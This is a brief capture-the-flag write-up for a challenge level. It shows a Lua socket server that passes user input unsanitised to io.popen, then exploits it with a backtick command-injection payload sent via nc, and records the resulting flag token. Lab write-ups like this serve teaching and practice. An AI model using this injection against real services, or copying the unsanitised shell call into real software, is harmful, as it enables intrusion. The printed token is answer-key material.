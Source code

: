 # We have a lua script 
```bash
cat level11.lua
```

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

- This script open a connection and wait for a assword to compare with the one who is hashed. The script use 'io.open' function for the hash function.
io.open function is used here to exec a cmd. 

# Test the connection 
```bash
nc localhost 5151
password: 
```

- Waiting for a password

- We can inject cmd to execute
```bash
password: `getflag` > /tmp/token11
```

- cat /tmp/token11

- Token = fa6v5ateaw21peobuub8ipe6s
